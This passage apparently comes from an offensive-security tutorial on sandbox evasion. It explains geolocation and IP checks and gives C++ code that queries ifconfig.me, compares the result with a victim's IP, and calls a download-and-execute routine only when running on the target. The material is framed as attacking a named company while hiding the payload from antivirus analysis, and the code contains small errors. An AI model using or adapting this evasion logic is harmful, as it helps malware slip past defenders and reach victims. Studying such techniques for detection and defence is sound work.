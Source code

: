 And congrats, we now have evaded some sandboxes. Now, this is not the beset thing as there are ways to bypass sleep timers, a better solution would be to waste computing time by doing heavy math.

# Geolocation and Geoblocking
One defining factor of sandboxes is that they are often located off-premise and are hosted by AV providers. If we know we are attacking a company in the US and our binary is executed in London, we can make an educated guess that the binary has ended up in a Sandbox. We may choose to implement a geolocation filter on our program that checks if the IP address block is owned by the company we are targeting or if its from a residential address space. There are several services that we can use to check this information.
- [ifconfig.me](https://ifconfig.me/)
- [https://rdap.arin.net/registry/ip/1.1.1.1](https://rdap.arin.net/registry/ip/1.1.1.1)
IfConfig.me can be used to retrieve our current IP address, with additional information being optional. Combining this with ARIN's RDAP allows us to determine the ISP returned in an easy to parse format (JSON).
It is important to note that this method will only work if the host has internet access. Some organizations may build a block list of specific domains, so we should be 100% sure that his method will work for the organization we are attempting to leverage this against.
## Implementation
Now, for this method, we will be making a simple comparison between IPs, normally a sandbox will have a different IP than the target server, so we will get the sandbox IP from the website, to then compare it with the target's IP, if it is correct we can then proceed.
```cpp
BOOL checkIP() {   
 // Declare the Website URL that we would like to visit
    const char* websiteURL = "<https://ifconfig.me/ip>";   
 // Create an Internet Stream to access the website
    IStream* stream;   
 // Create a string variable where we will store the string data received from the website
    string s;   
  // Create a space in memory where we will store our IP Address
    char buff[35];   
    unsigned long bytesRead;   
 // Open an Internet stream to the remote website
    URLOpenBlockingStreamA(0, websiteURL, &stream, 0, 0);   
 // While data is being sent from the webserver, write it to memory
    while (true) {       
        stream->Read(buff, 35, &bytesRead);       
        if (0U == bytesRead) {           
            break;       
        }       
        s.append(buff, bytesRead);   
    }   
  // Compare if the string is equal to the targeted victim's IP. If true, return the check is successful. Else, fail the check.
    if (s == "VICTIM_IP") {       
        return TRUE;   
    }   
    else {       
    return FALSE;   
    }
}

int main(){
	if(checkIP() == TRUE){
		donwloadAndExecute();
		return 0;
	} else {
		cout << "HTTP/444 - I'm good!"
		return 0;
	}
```